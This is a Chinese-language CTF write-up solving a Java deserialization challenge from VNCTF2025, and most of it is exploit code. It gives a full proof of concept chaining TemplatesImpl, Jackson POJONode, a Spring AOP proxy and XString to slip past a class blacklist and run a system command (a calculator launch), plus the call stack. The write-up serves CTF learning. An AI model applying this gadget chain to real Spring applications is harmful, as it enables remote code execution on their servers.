


## TL;DR

unk 出的题目，他也是退役的人，现在估计已经上岸了吧，突然想起了 VNCTF2025 还拿了 200 CNY 的奖金，但是 2026 过年去了就没参加，现在来复现一道 Java 反序列化的题目

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>org.example.blackcoffee</groupId>
  <artifactId>black-coffee</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>jar</packaging>

  <name>black-coffee</name>
  <url>http://maven.apache.org</url>
  <parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.7.11</version>
    <relativePath/>
  </parent>
  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
  </properties>

  <dependencies>
    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-web</artifactId>
    </dependency>
  </dependencies>
  <build>
    <plugins>
      <plugin>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-maven-plugin</artifactId>
      </plugin>
    </plugins>
  </build>
</project>

```

这个依赖就是很明显能够打 Spring 那条链子的，

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package org.example.blackcoffee.controller;

import java.io.ByteArrayInputStream;
import java.util.Base64;
import org.example.blackcoffee.CoffeeObjectInputStream;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class CoffeeController {
    @ResponseBody
    @RequestMapping({"/"})
    public String index() {
        return "hello";
    }

    @ResponseBody
    @RequestMapping({"/drink"})
    public String coffee(String payload) {
        byte[] decode = Base64.getDecoder().decode(payload);

        try {
            (new CoffeeObjectInputStream(new ByteArrayInputStream(decode))).readObject();
            return "done!";
        } catch (Exception e) {
            return e.getMessage();
        }
    }
}
```

给了反序列化接口，



简单搜索了下我的博客得知拦截的主要是这几个类

```
javax.swing.event.EventListenerList
javax.swing.undo.UndoManager
java.security.SignedObject
```

禁止了二次反序列化绕过黑名单，换成 Xstring 触发即可

```java
package org.example.poc;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;
import sun.misc.Unsafe;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.ObjectStreamClass;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;

//--add-opens=java.base/sun.nio.ch=ALL-UNNAMED
//--add-opens=java.base/java.lang=ALL-UNNAMED
//--add-opens=java.base/java.io=ALL-UNNAMED
//--add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED
//--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED
//--add-opens=java.xml/com.sun.org.apache.xpath.internal.objects=ALL-UNNAMED
//--add-opens=java.base/java.lang.reflect=ALL-UNNAMED
//--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED
//--add-exports=java.xml/com.sun.org.apache.xpath.internal.objects=ALL-UNNAMED
//--add-exports=jdk.unsupported/sun.misc=ALL-UNNAMED

public class Poc {

    public static void main(String[] args) throws Exception {
        patchModule(Poc.class);

        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter(
                "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");");
        byte[] evilBytes = evilClass.toBytecode();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setFieldValue(templates, "_name", "Pwnd");
        setFieldValue(templates, "_transletIndex", 0);

        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        Object proxyTemplates = getPOJONodeStableProxy(templates);
        POJONode jsonNode = new POJONode(proxyTemplates);

        HotSwappableTargetSource h1 = new HotSwappableTargetSource("a");
        HotSwappableTargetSource h2 = new HotSwappableTargetSource("b");
        HashMap<Object, Object> map = new HashMap<>();
        map.put(h1, 1);
        map.put(h2, 2);
        setFieldValue(h1, "target", jsonNode);
        setFieldValue(h2, "target", new XString("x"));

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(map);
        oos.close();

        try {
            new CoffeeObjectInputStream(new ByteArrayInputStream(barr.toByteArray())).readObject();
        } catch (Throwable ignored) {
        }
    }

    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static Unsafe getUnsafe() throws Exception {
        Field f = Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        return (Unsafe) f.get(null);
    }

    private static void setFieldValue(Object obj, String field, Object val) throws Exception {
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }

    private static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception {
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        return Proxy.newProxyInstance(
                clazz.getClassLoader(),
                new Class[]{Templates.class, Serializable.class},
                handler);
    }

    public static class CoffeeObjectInputStream extends ObjectInputStream {
        public CoffeeObjectInputStream(java.io.InputStream in) throws java.io.IOException {
            super(in);
        }

        @Override
        protected Class<?> resolveClass(ObjectStreamClass desc) throws java.io.IOException, ClassNotFoundException {
            String name = desc.getName();
            if (name.startsWith("javax.swing") || name.startsWith("java.security")) {
                throw new InvalidClassException("bad for coffee:", name);
            }
            return super.resolveClass(desc);
        }
    }
}

```



调用栈

```
java.lang.Runtime.exec(Runtime.java)
EvilXXX.<clinit>
java.lang.reflect.Constructor.newInstance(Constructor.java)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:559)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:587)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:608)
org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(AopUtils.java:344)
org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:213)
jdk.proxy1.$Proxy0.getOutputProperties
com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
com.fasterxml.jackson.databind.node.POJONode.serialize(POJONode.java:115)
com.fasterxml.jackson.databind.ObjectWriter.writeValueAsString(ObjectWriter.java:1086)
com.fasterxml.jackson.databind.node.InternalNodeMapper.nodeToString(InternalNodeMapper.java:30)
com.fasterxml.jackson.databind.node.BaseJsonNode.toString(BaseJsonNode.java:136)
com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:391)
org.springframework.aop.target.HotSwappableTargetSource.equals(HotSwappableTargetSource.java:104)
java.util.HashMap.putVal(HashMap.java:633)
java.util.HashMap.readObject(HashMap.java:1553)
org.example.poc.Poc.main(Poc.java)
```

